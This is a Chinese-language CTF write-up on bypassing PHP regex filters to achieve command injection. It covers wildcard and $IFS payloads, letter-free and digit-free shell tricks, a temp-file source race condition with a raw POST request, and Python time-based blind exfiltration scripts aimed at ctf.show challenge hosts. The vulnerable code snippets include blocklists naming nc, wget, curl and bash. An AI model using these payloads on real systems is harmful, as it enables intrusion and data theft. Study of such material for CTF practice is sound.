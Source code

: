 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）




cmd=/bin/cat%20/etc/passwd
cmd=/usr/bin/find%20/%20-name%20flag*
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
![](.topwrite/assets/image_1732956831826.png)
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```
脚本
```
get_reverse_number = "$((~$(({}))))" # 取反操作
negative_one = "$((~$(())))"    # -1
payload = get_reverse_number.format(negative_one*37)
print(payload)
```

^
## **没有过滤.的php临时文件命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
同时传参
```
?c=.%20/???/????????[@-[]
```
最终数据包如下：
```
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 13cf7637-c8fc-4c8e-901d-782b7a0c99fd.challenge.ctf.show
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime/7.42.0
Content-Type: multipart/form-data; boundary=--------------------------974334232652972648027191
Accept: */*
Cache-Control: no-cache
Postman-Token: 12305bc1-76a8-4288-a75d-266bbc6679d3
Content-Length: 220

----------------------------974334232652972648027191
Content-Disposition: form-data; name="filename"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
cat flag.php
----------------------------974334232652972648027191--
```












^
## **延时盲注**
exec没有回显，并且过滤了. curl nc 写文件。
```
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
```
测试ls;sleep 3可以延时。
延时根目录/
```
import requests
import time
import string
str=string.ascii_letters+string.digits+'_~'
result=""
for i in range(1,10):#行
    key=0
    for j in range(1,15):#列
        if key==1:
            break
        for n in str:
           #awk 'NR=={0}'逐行输出获取
           #cut -c {1} 截取单个字符
            payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n) #使用 cut -c 1 提取第一个字符。
            #print(payload)
            url="http://873b2081-3b04-4517-a10d-dcb44382c44c.challenge.ctf.show/?c="+payload
            try:
                requests.get(url,timeout=(2.5,2.5))
            except:
                result=result+n
                print(result)
                break
            if n=='~':
                key=1
                result+=" "
#找到flag：/f149_15_h3r3
```
延时flag文件中内容
```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n) #使用 cut -c 1 提取第一个字符。
        #print(payload)
        url="http://b76bf2c7-70e7-401f-a490-f5963e74b581.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```
